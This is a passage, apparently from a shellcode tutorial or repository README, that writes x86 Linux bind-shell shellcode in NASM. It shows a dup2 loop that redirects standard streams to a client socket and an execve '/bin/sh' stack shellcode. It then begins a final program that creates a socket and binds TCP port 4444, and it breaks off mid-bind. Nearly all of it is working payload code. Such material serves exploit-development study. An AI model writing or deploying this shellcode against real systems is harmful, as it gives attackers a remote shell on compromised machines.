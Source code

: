```nasm
        mov ebx, eax            ; oldfd = clientfd, eax es clientfd, resultado de accept
        xor ecx, ecx            ; ecx = newfd
loop:
        mov al, 0x3f            ; syscall dup2
        int 0x80
        inc ecx
        cmp ecx, 0x2
        jle loop
```


#### Execve
```c
int execve(const char *filename, char *const argv[],
                  char *const envp[]);
```

Simple exevce shellcode /bin/sh that use the stack.

```nasm
        xor eax, eax
        push eax
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp
        push eax
        mov edx, esp
        push ebx
        mov ecx, esp
        mov al, 11
        int 0x80
```


#### Final program


```nasm
global _start

section .text
_start:
        ; int socket(int domain, int type, int protocol);
        xor eax, eax
        xor ebx, ebx
        push eax                ; protocol      - 0
        push 1                  ; type          - SOCK_STREAM,
        push 2                  ; dominio       - AF_INET

        mov ecx, esp            ; arguments
        mov bl, 1               ; sys_socket
        mov al, 102             ; systemcall
        int 0x80

        mov esi, eax            ; save sockfd


        ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        xor eax, eax
        xor ecx, ecx
        ; *addr
        push eax                ; addr
        push word 0x5c11        ; Port 4444
        push word 2             ; PF_INET
        mov ecx, esp            ; save *addr in ecx

        push 0x10               ; length addrlen=16
```